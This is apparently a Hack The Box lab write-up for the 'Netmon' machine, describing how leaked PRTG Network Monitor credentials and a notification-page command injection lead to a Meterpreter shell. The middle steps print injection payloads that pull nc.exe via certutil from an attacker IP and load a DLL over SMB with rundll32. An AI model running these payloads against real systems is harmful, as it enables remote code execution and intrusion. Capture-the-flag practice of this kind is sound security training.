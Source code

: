 +++
title = "HTB/Netmon"
date = "2019-03-03"
tags = ["htb", "Windows", "PRTG Network Monitor", "Certutil"]
categories = ["Development"]
menu = "main"
draft = false
+++


![alt text](/images/htb-Netmon/img1.png)
![alt text](/images/htb-Netmon/img2.png)


# Reconnaissance

##### Box IP: 10.10.10.152
1. I started by scanning the network. Here's what I found:


![alt text](/images/htb-Netmon/img3.png)
![alt text](/images/htb-Netmon/img4.png)

2. Port 80 hosts a login page for PRTG Network Monitor. I found it to be vulnerable to cross-site scripting (XSS). 

![alt text](/images/htb-Netmon/img5.png)


3. For FileZilla, I tried FTP. I was looking for a configuration file (configuration.old) that reportedly held credentials, according to this Reddit post [link](https://www.reddit.com/r/sysadmin/comments/862b8s/prtg_gave_away_some_of_your_passwords/) 
  
* Initially, I couldn’t find it until I learned it was hidden. Once I enabled “Show hidden files” in /programData/Paessler/PRTG Network Monitor, I found the configuration file.


![alt text](/images/htb-Netmon/img6.png)
![alt text](/images/htb-Netmon/img8.png)
![alt text](/images/htb-Netmon/img9.png)
 
* I found the configuration file in programdata/passeler/PRTG/Configuration.old.bak

* **Credentials:** >prtgadmin  →  PrTg@dmin2018  

* I was getting incorrect login with this credentials, after a hint the folks in the hitb discord, I tried **PrTg@dmin2019** which worked!

![alt text](/images/htb-Netmon/img10.png)

4. In FileZilla, after enabling hidden files under server>show hidden files, I found USER.txt under /Users/Public.


![alt text](/images/htb-Netmon/img11.png)

5. Using these credentials, I logged into the system.

![alt text](/images/htb-Netmon/img12.png)
![alt text](/images/htb-Netmon/img13.png)

* I found a CVE exploit that allows remote command execution through the notification page. links:
  
  https://www.ptsecurity.com/ww-en/analytics/threatscape/pt-2018-23/
  https://www.codewatch.org/blog/?p=453
  https://www.exploit-db.com/exploits/46527

* I used exploit #46527 to create a payload

6. first, I set up a simplehttpserver to transfer nc.exe, the payload, to establish a session.

![alt text](/images/htb-Netmon/img18.png)
![alt text](/images/htb-Netmon/img19.png)

7. In the **create_user()** function (7th line) in the figure below, starting from "&message_10 parameter", I injected an HTML-encoded command that would execute through the notification page.
* **Command**
```bash
test.txt|"certutil.exe -urlcache -split -f http://10.10.12.11/nc.exe c:\users\public\Music\nc.exe"
```
![alt text](/images/htb-Netmon/img17.png)

![alt text](/images/htb-Netmon/img15.png)

8. After executing a certutil GET request to the HTTP server, I successfully uploaded the nc.exe.

![alt text](/images/htb-Netmon/img30.png)

9. Next, I used the same script to run nc.exe and I had set up a listener on my attack machine to establish a connection

![alt text](/images/htb-Netmon/img16.png)
![alt text](/images/htb-Netmon/img21.png)

* For some reason the shell from nc didn't work, It wasn't a full shell
------------------------------------------------------------------------
* I tried other things and here's what I found to work for me:

![alt text](/images/htb-Netmon/img22.png)

1.  Press F12 once logged-in to open inspect element and get the cookie paramters.
  
![alt text](/images/htb-Netmon/img23.png)

* Inside rundl32.sh.. The most important paramenter...After "&message_10="

![alt text](/images/htb-Netmon/img24.png)

11. I used w3school to encode the command I want to inject in html
  
```bash
test.txt|"rundll32.exe \\10.10.12.11\uqMdU\test.dll,0
```
![alt text](/images/htb-Netmon/img26.png)

```bash
text=test.txt%7C%22rundll32.exe+%5C%5C10.10.12.11%5CuqMdU%5Ctest.dll%2C0%22
```

12. Executing rundl32.sh displayed "titanrundl2" on the notification page. 

![lt text](/images/htb-Netmon/img29.png)

13. Using the **windows/smb/smb_delivery** exploit module in metasploit with a job running on port 8081, I finally gained a Meterpreter shell! 
![alt text](/images/htb-Netmon/img28.png)
![alt text](/images/htb-Netmon/img27.png)

![alt text](/images/htb-Netmon/img31.png)
![alt text](/images/htb-Netmon/img32.png)

## Ladies and Gentlemen, we are in! 🎉

![alt text](/images/htb-Netmon/img33.png)
![alt text](/images/htb-Netmon/img34.png)
![alt text](/images/htb-Netmon/img35.png)


**Hash:** 3018977fb944bf1878f75b879fba67cc

It took a while, but mission accomplished!
